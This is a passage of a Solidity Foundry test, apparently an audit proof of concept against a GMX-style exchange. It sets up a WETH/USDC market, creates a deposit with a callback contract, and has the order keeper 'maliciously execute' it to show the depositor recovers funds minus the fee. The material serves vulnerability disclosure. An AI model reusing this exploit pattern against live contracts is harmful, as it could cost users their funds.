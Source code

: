 ```solidity
        IDataStore(dataStore).setUint(keccak256(abi.encode("EXECUTION_GAS_FEE_MULTIPLIER_FACTOR")), 10**30);
        IDataStore(dataStore).setUint(keccak256(abi.encode("NATIVE_TOKEN_TRANSFER_GAS_LIMIT")), 4000000);
        vm.stopPrank();

        vm.prank(ROLE_ADMIN);
        IRoleStore(roleStore).grantRole(address(ORDER_KEEPER), keccak256(abi.encode("ORDER_KEEPER")));

        // validate weth long usdc short index weth
        assertEq(WETH, wethLong);
        assertEq(WETH, wethIndex);
        assertEq(USDC, usdcShort);

        // initial fund deposit vault and weth 
        uint256 depositEth = 1000 ether;
        uint256 executionFee = 100000;
        address[] memory addrArray; 
        deal(USDC, depositVault, depositEth);
        vm.deal(depositVault, depositEth);
        vm.prank(depositVault);
        WETH.call{value: depositEth}(abi.encodeWithSelector(bytes4(keccak256("deposit()"))));
        vm.deal(WETH, depositEth);

        // Create deposit params
        CreateDepositParams memory deposit = CreateDepositParams(
            address(this), // receiver
            address(callback), // callback 
            marketWethUsdc, // market
            wethLong, // inital longtoken
            usdcShort, // inital short token
            addrArray, // longtokenswappath
            addrArray, // shortokenswappath
            0, // minmarkettokens
            true,// shouldunwrapnativetoken
            executionFee, // executionfee
            2000000 // callbackGasLimit
        );

        // Create deposit!
        bytes32 depositKey = EXCHANGE_ROUTER.createDeposit(deposit);

        // Maliciously execute legit deposit
        vm.startPrank(address(ORDER_KEEPER));
        depositHandler.executeDeposit{gas: 6_900_000}(depositKey, getPriceParams()); // get correct price commands. 

        // Validate exploit successful by seeing that the deposit was was paid back to account minus execution fee
        (bool success, bytes memory data) = WETH.call(abi.encodeWithSelector(bytes4(keccak256("balanceOf(address)")), address(this)));
        uint256 balance = abi.decode(data, (uint256));
        assertEq(balance, depositEth - executionFee);
    }

    function getPriceParams() internal returns (SetPricesParams memory) {
        address[] memory tokens = new address[](2);
        tokens[0] = WETH;
        tokens[1] = USDC;
        
        // min oracle block numbers
        uint256[] memory uncompactedMinOracleBlockNumbers = new uint256[](2);
```